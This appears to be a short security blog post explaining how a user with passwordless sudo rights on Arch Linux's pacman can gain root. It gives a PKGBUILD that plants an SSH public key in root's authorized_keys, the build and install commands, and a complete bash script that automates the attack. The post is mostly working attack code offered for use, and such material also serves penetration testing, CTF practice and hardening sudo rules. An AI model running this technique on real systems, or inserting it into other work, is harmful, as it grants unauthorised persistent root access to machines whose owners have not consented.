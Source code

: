 ```yaml
---
title: Privilege Escalation via Pacman
author: Saad
date: 2024-11-19 00:00:00 +0500
categories:
  - OS
  - Arch
tags:
  - privesc
  - pacman
  - arch
  - privilege escalation
  - pacman privesc
  - makepkg
  - malicious pkg
  - abusing pacman
  - root via pacman
image: pacman.jpg
media_subpath: /assets/img/pacman
---
```


Privilege escalation with `pacman`.
If the user has sudo permission to run `pacman`, we can easily escalate privileges to root.
```bash
[skid@arch]$ sudo -l 
User skid may run the following commands on arch:    
 (ALL : ALL) NOPASSWD: /usr/bin/pacman
```

First, create a directory and name it whatever you want:
```bash
[skid@arch]$ mkdir priv && cd priv
[skid@arch priv]$ nano PKGBUILD
```

In the `PKGBUILD` file, add the following content:
```bash
pkgname=privesc
pkgver=1.0
pkgrel=1
pkgdesc="Privilege escalation"
arch=('any')
url="http://example.com"
license=('GPL')
depends=()
makedepends=()
source=('authorized_keys')
sha256sums=('SKIP')
package() {
  install -Dm755 "$srcdir/authorized_keys" "$pkgdir/root/.ssh/authorized_keys"
}
```

Now, generate SSH keys on the target machine, and rename `id_rsa.pub` to `authorized_keys`:
```bash
[skid@arch]$ ssh-keygen -t rsa -b 4096 -f id_rsa -N "" 
```

```bash
[skid@arch]$ mv id_rsa.pub authorized_keys
```

> This malicious package script is designed to add our public SSH key to root's authorized_keys.

Next, run `makepkg` in the directory containing the `PKGBUILD` script:
```bash
[skid@arch priv]$ makepkg
```

After generating the package, transfer the `id_rsa` private key to your own machine and set its permissions to `600`:
```bash
[skid@arch] chmod 600 id_rsa
```

The `makepkg` command should produce a `.zst` file, such as `privesc-1.0-1-any.pkg.tar.zst`. Finally, install this package with `pacman`:
```bash
[skid@arch priv]$ sudo /usr/bin/pacman -U /home/skid/priv/privesc-1.0-1-any.pkg.tar.zst
```
This will add your SSH key to the root user's authorized_keys, allowing root access via SSH.

Just a bash script to do all the crap in snap.
```bash
#!/bin/bash

# Create a working directory
mkdir priv && cd priv

# Generate PKGBUILD file
cat <<EOF >PKGBUILD
pkgname=privesc
pkgver=1.0
pkgrel=1
pkgdesc="Privilege Escalation Package"
arch=('any')
url="http://example.com"
license=('GPL')
depends=()
makedepends=()
source=('authorized_keys')
sha256sums=('SKIP')
package() {
  install -Dm755 "\$srcdir/authorized_keys" "\$pkgdir/root/.ssh/authorized_keys"
}
EOF

# Generate SSH keys
ssh-keygen -t rsa -b 4096 -f id_rsa -N ""
mv id_rsa.pub authorized_keys

# Build the malicious package
makepkg

# Output message
echo "Malicious package created! Run the following command to deploy:"
echo "sudo pacman -U $(pwd)/privesc-1.0-1-any.pkg.tar.zst"
echo "Don't forget to secure your private key: id_rsa"

```
